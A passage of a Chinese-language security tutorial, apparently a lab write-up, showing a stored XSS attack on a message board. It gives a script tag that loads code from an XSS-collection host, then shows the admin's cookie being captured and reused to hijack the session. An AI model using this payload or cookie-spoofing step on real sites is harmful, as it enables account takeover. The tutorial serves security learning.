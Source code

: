 
XSS代码：`<script src=http://www.xss.com/57qTTP?1614703514></script>` <br>
其中 `http://www.xss.com/57qTTP?1614703514` 为XSS平台，这个XSS平台是我本地搭建的

留言成功之后我们使用管理员账号来登陆查看一下这个留言内容<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614703813817.png)

然后再XSS平台查看是否成功接收到 Cookie 信息<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614703865060.png)

可以看到成功得到管理员的 Cookie 信息

接下来我们来进行尝试 Cookie 欺骗登陆

使用火狐插件 firebug 来修改添加 Cookie 信息，把时间设置一个小时<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614704058397.png)
